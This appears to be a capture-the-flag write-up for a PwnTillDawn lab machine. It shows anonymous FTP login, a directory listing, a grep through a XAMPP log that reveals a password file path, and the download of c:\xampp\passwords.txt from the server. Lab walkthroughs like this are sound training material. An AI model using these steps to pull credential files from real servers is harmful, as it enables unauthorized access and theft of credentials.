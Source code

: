 ## FTP Enumeration ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/212]
└─$ ftp 10.150.150.212 21
Connected to 10.150.150.212.
220-Wellcome to Home Ftp Server!
220 Server ready.
Name (10.150.150.212:kali): Anonymous
331 Password required for Anonymous.
Password: 
230 User Anonymous logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
227 Entering Passive Mode (10,150,150,212,192,35).
150 Opening data connection for directory list.
drw-rw-rw-   1 ftp      ftp            0 Mar 26  2019 .
drw-rw-rw-   1 ftp      ftp            0 Mar 26  2019 ..
drw-rw-rw-   1 ftp      ftp            0 Mar 13  2019 FLAG
-rw-rw-rw-   1 ftp      ftp        34419 Mar 26  2019 xampp-control.log
-rw-rw-rw-   1 ftp      ftp          881 Nov 13  2018 zen.txt
226 File sent ok
ftp>
```
{: .nolineno}
{: .nolineno}

I got the flag and some information :

with file called `xampp-control.log` file I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/212]
└─$ cat xampp-control.log | grep password
3:11:25 PM  [main] 	XAMPP Password Written in: "c:\xampp\passwords.txt"
```
{: .nolineno}
{: .nolineno}

Now with FTP I tried to access this data and I got it like this →

```bash
ftp> get c:\xampp\passwords.txt
local: c:xampppasswords.txt remote: c:xampppasswords.txt
227 Entering Passive Mode (10,150,150,212,192,78).
501 Cannot RETR. File not found
ftp> get c:\\xampp\\passwords.txt
local: c:\xampp\passwords.txt remote: c:\xampp\passwords.txt
227 Entering Passive Mode (10,150,150,212,192,79).
150 Opening data connection for c:\xampp\passwords.txt.
100% |***********************************************************************************|   816       10.36 KiB/s    00:00 ETA
226 File sent ok
816 bytes received in 00:00 (3.11 KiB/s)
ftp>
```
{: .nolineno}
{: .nolineno}
